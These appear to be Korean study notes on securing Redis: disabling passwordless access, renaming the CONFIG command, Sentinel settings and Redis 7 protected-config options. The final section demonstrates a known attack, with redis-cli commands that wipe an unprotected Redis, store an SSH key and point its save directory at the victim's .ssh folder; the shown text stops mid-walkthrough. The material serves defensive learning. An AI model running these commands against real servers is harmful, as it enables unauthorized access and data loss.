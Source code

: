 기본 값은 yes이며 만약 패스워드 없이 사용하고 싶다면 no로 변경해야한다.


## 커맨드 제어
레디스는 명령어를 통해 인스턴스의 중요한 설정값을 제어 할 수 있다.
CONFIG SET을 통해 대부분의 레디스 설정을 변경할 수 있는데 이를 허용되지 않은 클라이언트가 실행하면 레디스의 설정이 변경되는 일이 발생한다.
따라서 레디스의 커맨드를 제어할 필요가 있다.

### 커맨드 이름 변경
rename-command는 레디스에서 특정 커맨드를 다른 이름으로 변경하거나 커맨드를 비활성화 할 수 있는 설정이다.
redis.conf에서 변경할 수 있으며 실행 중에는 동적으로 변경할 수 없다.
```
rename-command CONFIG CONFIG_NEW
>> CONFIG 명령어를 CONFIG_NEW라는 명령어로 변경
>> 이렇게 하면 운영자 외에는 CONFIG_NEW라는 명령어를 알 수 없어 해당 명령어를 사용할 수 없다.
```

만약 센티널을 사용중이라면 sentinel.conf에서도 변경해야한다.
센티널은 장애가 발생했다고 판단하면 레디스에 REPLICAOF, CONFIG 등의 명령어는 날려 레디스 인스턴스를 제어하는데
명령어가 바뀐것을 센티널이 알지 못하면 페일오버가 정상적으로 작동하지 않는다.
```
sentinel.conf

sentinel rename-command CONFIG CONFIG_NEW
```
### 커맨드 실행 환경 제어
레디스 버전 7부터는 보안을 강화하기 위해 특정 커맨드를 실행하는 환경을 제어할 수 있다.
레디스가 실행 중일 때 변경하면 위험할 수 있는 커맨드는 기본적으로 변경할 수 없도록 차단됐으며
사용자는 이러한 커맨드 변경을 아예 차단 또는 허용 하거나 로컬에서만 변경이 가능하도록 선택할 수 있다.
```
enable-protected-config no
>> 레디스의 기본 경로 설정인 dir 및 백업 파일의 경로를 지정하는 dbfile등의 옵션을 CONFIG 커맨드로 수정하는 것을 차단

enable-debug-command no
>>DEBUG 커맨드 차단

enable-moduel-command no
>> MODULE 커맨드를 차단

no : 모든 연결에 대해 수행이 차단
yes : 모든 연결에 대해 수행이 허용
local : 로컬 연결만 수행이 허용
```


### 레디스를 이용한 해킹 사례
![[KakaoTalk_Photo_2025-10-15-16-00-00 001.jpeg|700]]
203.0.113.1이라는 IP 주소를 가진 서버에서 레디스가 실행중이고 레디스의 protected-mode가 no, 패스워드도 설정되지 않았다고 가정
서버 B에서 서버 A의 레디스에 접근이 가능한지 확인하기 위해 talent 커맨드로 확인
연결이 된다면 네트워크 통신이 가능하며 redis-cli를 사용해 패스워드 없이 연결하는 것도 가능하다.

서버 B에서 SSH 키를 생성하고 이 키의 데이터를 레디스를 통해 서버 A로 전송해 파일로 저장한 후 이 키를 사용해 서버 B에서 A로 접근을 가능하게 해보자
![[KakaoTalk_Photo_2025-10-15-16-00-01 002.jpeg|700]]
1. 서버 B에서 ssh-keygen을 이용해 ssh 키를 생성, 파일의 앞 뒤에 공백을 넣어 key.txt라는 텍스트 파일을 생성
2. 서버 B에서 A의 레디스로 접근해서 레디스의 내용을 전체 삭제한 뒤 방금 생성한 텍스트 파일을 데이터로 넣어준다.
```
[centos@serverB ~]$ redis-cli -h 203.0.113.1 echo flushall
[centos@serverB ~]$ cat key.txt | redis-cli -h 203.0.113.1 -x set key
```
3. 서버 A의 레디스에 직접 접근해 데이터가 저장되는 경로와 파일명을 변경
```
[centos@serverB ~]$ redis-cli -h 203-0.113.1 -p 6379
203.0.113.1:6379> CONFIG SET dir /home/centos/.ssh/
OK
```